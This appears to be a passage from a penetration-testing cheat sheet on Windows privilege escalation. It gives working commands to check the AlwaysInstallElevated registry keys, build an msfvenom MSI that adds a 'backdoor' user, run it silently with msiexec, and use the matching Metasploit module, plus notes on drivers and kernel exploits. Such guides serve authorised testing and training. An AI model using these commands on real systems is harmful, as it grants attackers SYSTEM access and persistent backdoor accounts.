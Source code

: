 #### Compiling python scripts to executables:

```text
wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py
```

## AlwaysInstallElevated

**AlwaysInstallElevated** is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files \(MSI\) with elevated \(SYSTEM\) permissions.

Check if these 2 registry values are set to "1"reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

```text
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If they are, create your own malicious msi:

```text
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
```

Then use msiexec on victim to execute your msi:

```text
msiexec /quiet /qn /i C:\evil.msi
```

Metasploit module:

```text
use exploit/windows/local/always_install_elevated
```

### Windows-privesc-checker2

```text
https://github.com/pentestmonkey/windows-privesc-check/archive/master.zip
```

## Vulnerable drivers

Third party drivers might contain vulnerabilities, find them running:

```text
DRIVERQUERY
```

## Kernel vulnerabilities

#### Run exploit suggester against systeminfo:

{% hint style="info" %}
Don't rely on this - there are a  lot of false positive! This is generally a last resort.
{% endhint %}
